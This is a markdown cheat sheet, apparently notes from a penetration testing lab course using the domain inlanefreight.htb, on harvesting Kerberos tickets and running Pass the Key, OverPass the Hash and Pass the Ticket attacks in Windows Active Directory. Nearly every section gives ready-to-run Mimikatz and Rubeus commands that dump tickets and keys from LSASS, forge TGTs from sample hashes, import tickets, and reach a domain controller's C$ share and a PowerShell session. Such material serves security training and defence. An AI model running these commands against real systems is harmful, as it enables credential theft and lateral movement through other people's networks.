 # Content 
- [Harvesting Kerberos Tickets from Windows](#harvesting-kerberos-tickets-from-windows)
  - [Mimikatz - Export Tickets](#mimikatz---export-tickets)
  - [Rubeus - Export Tickets](#rubeus---export-tickets)
- [Pass the Key or OverPass the Hash](#pass-the-key-or-overpass-the-hash)
  - [Mimikatz - Extract Kerberos Keys](#mimikatz---extract-kerberos-keys)
  - [Mimikatz - Pass the Key or OverPass the Hash](#mimikatz---pass-the-key-or-overpass-the-hash)
  - [Rubeus - Pass the Key or OverPass the Hash](#rubeus---pass-the-key-or-overpass-the-hash)
- [Pass the Ticket (PtT)](#pass-the-ticket-ptt)
  - [Rubeus - Pass the Ticket](#rubeus---pass-the-ticket)
  - [Mimikatz - Pass the Ticket](#mimikatz---pass-the-ticket)
  - [Mimikatz - PowerShell Remoting with Pass the Ticket](#mimikatz---powershell-remoting-with-pass-the-ticket)
  - [Rubeus - PowerShell Remoting with Pass the Ticket](#rubeus---powershell-remoting-with-pass-the-ticket)

- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
- Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

## Harvesting Kerberos Tickets from Windows
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.



Note: 
1. The tickets that end with $ correspond to the computer account, which needs a ticket to interact with the Active Directory.
2. User tickets have the user's name, followed by an @ that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi` .
3. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.
4. 
```
At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.
```


### Mimikatz - Export Tickets

```powershell
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus - Export Tickets

```powershell
Rubeus.exe dump /nowrap
```


## Pass the Key or OverPass the Hash
- The Pass the Key or OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.
- To forge our tickets, we need to have the user's hash
- we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.
- once we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.
- Modern Windows domains (functional level 2008 and above) use `AES` encryption by default in normal Kerberos exchanges. If we use a `rc4_hmac` (NTLM) hash in a Kerberos exchange instead of an` aes256_cts_hmac_sha1 (or aes128) key`, it may be detected as an "encryption downgrade." 

### Mimikatz - Extract Kerberos Keys

```powershell
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```
after we got the keys we can use Mimikatz or Rubeus to Get the `TGT`

### Mimikatz - Pass the Key or OverPass the Hash
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f"
```
### Rubeus - Pass the Key or OverPass the Hash
Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

```powershell
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass the Ticket (PtT)
Now that we have some Kerberos tickets `TGT` , we can get some `TGS` and use them to move laterally within an environment.

### Rubeus - Pass the Ticket
```powershell
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi


c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
# Pass the Ticket - Base64 Format

[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
```

### Mimikatz - Pass the Ticket
```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

```


### Mimikatz - PowerShell Remoting with Pass the Ticket

```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

### Rubeus - PowerShell Remoting with Pass the Ticket

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```powershell
 Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
